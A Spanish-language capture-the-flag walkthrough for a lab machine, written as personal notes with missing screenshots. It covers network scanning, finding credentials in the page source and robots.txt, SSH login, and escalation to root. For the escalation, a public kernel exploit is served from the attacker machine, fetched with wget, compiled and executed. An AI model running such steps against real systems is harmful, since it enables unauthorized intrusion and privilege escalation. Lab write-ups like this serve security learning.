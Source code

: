 **1.- Escaneo de la red local:**
Para escanear la red local para identifica la IP de la máquina, para ello usaremos el siguiente comando:

arp-scan --localnet
![[Pasted image 20240225101807.png]]

**2.- Escanear puertos abiertos:**
Para poder ver los puertos abiertos de la maquina hay que usar el siguiente comando:

nmap -sS -sV (ip de la máquina)
![[Pasted image 20240225102213.png]]

Al ver que hay el puerto 80 abierto, vemos que equivale al protocolo HTTP y eso es una web.

**3.- Abrimos la web en el navegador:**
Para abrir la web hay que introducir la IP de la máquina en el navegador.
![[Pasted image 20240225103209.png]]

Una vez la hemos abierto vamos a ver el código fuente le daremos click derecno y a view page source. 
![[Pasted image 20240225103613.png]]

Podemos ver abajo de todo que nos da el usuario.

Seguindamente iremos a la pagina web i escribiremos al lado de la ip /robots.txt que esto nos puede dar pistas de donde esta ubicaedo el sitemap de la web.
![[Pasted image 20240225103908.png]]

Vemos que nos da algo cifrado, al ver que contiene numeros, mayusculas, minusculas deducimos que es un hash en base 64. entonces lo vamos a descifrar.

**4.- Descifrar el hash:**

Para descifrar el hash introduciremos el siguiente comando.
![[Pasted image 20240225104221.png]]

Al descifrarlo vemos que nos da la primera flag. Lo mejor de todo esque esta es la password del usuario que hemos visto anteriormente.

Entonces, recordando que al hacer el escaneo de puetos hemos visto que podriamos entrar via el protocolo ssh.

**5.- Entrar en la máquina por ssh:**
Para entrar via ssh a una máquina hay que escribir el siguiente comando.

ssh usuario@ip
![[Pasted image 20240225104841.png]]

Una vez entramos nos queda encontrar 2 flags, miraremos si hay algún archivo que nos indique donde podemos encontrar las siguienters flags. Entonces escribiremos los siguientes comandos.
![[Pasted image 20240225105208.png]]
Podemos ver que hay el archivo flag2.txt nos muestra el la flag en binario, por lo tanto para saber el contenido de esta en ascii, nos tendremos que generar el siguiente script para traducirlo.
![[Pasted image 20240225105619.png]]

Ahora ejecutamos el script con el sigiente comando.
python3 (nombre archivo).py
![[Pasted image 20240225105706.png]]

Ya tenemos dos flags, solo nos queda escalar privilegios y conseguir la flag del usuario root (administrador).

**6.- Escalada de privilegios:**

Para escalar privilegios primero tenemos que mirar que permisos tenemos como usuario. Para ello, escribimos el siguiente comando.

find / -perm -u=s -type f 2>/dev/null
![[Pasted image 20240225110032.png]]
Al ver que con estos permisisos no podemos escalar, debemos mirar la version del sistema operativo para ver si es muy anterior y asi podemos buscar un script o programarlo.

lsb_release -a
![[Pasted image 20240225110243.png]]
Al ver que la version de ubunto es muy antigua, entonces buscaremos el script para escalar privilegios.
Descargamos el exploit de esta url: https://www.exploit-db.com/exploits/37292

Al tenerlo en la máquina atacante, hay enviarseolo a la máquina víctima, para ello montaremos un servidor python.

python3 -m http.server 80
![[Pasted image 20240225110710.png]]

Lo descargaremos desde la máquina victima usando el siguiente comando.

wget (ip)/(nombre archivo)
![[Pasted image 20240225110817.png]]

**7.- Ejecutar y encontrar la flag:**
Para ejecutar el script hay que escribir los siguientes comandos:
1. Primero hay que compilarlo:

gcc -o (nombre que quieres renombrar para ejecutar) (archivo).c
![[Pasted image 20240225110943.png]]
2. Seguidamente hay que ejecutarlo:

./(nombre del archivo compilado)
![[Pasted image 20240225111057.png]]

Con estso ya somos usuario root.

whoami
![[Pasted image 20240225111124.png]]
Para mostrar las rutas hay que escribir el siguiente comando:

script /dev/null -c bash
![[Pasted image 20240225111333.png]]

Ahora ya solo nos queda ir al carpeta del usuario root y encontrar la falg.
![[Pasted image 20240225111431.png]]
